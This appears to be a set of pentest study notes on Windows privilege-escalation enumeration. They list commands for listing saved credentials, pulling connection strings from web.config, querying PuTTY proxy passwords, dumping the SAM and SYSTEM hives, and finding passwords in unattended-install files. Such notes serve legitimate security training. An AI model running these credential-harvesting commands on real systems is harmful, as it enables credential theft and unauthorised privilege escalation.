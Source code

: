 ```yaml
---
title: Enumeration
description:  Finding the goods
---
```


## Check for unpatched software

```cmd
wmic product get name,version,vendor
```

## Saved Windows Credentials
Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```cmd
cmdkey /list
```
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```cmd
runas /savecred /user:admin cmd.exe
```

## IIS configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. 

Depending on the installed version of IIS, we can find web.config in one of the following locations:
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
	
Here is a quick way to find database connection strings on the file:
``` cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## PuTTY
While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
``` cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## SeBackup / SeRestore
If you have SeBackup / SeRestore privileges,
```
whoami /priv
```
you can backup the SAM and SYSTEM hashes using the following commands
```cmd
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
```
We can now copy these files to our attacker machine using SMB or any other available method.

## Unattended Windows Installations

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, to allow a single OS image to be deployed to several hosts.  These installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml
	
As part of these files, you might encounter credentials:
```
<Credentials>
    <Username>Administrator</Username>
    <Domain>domain.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

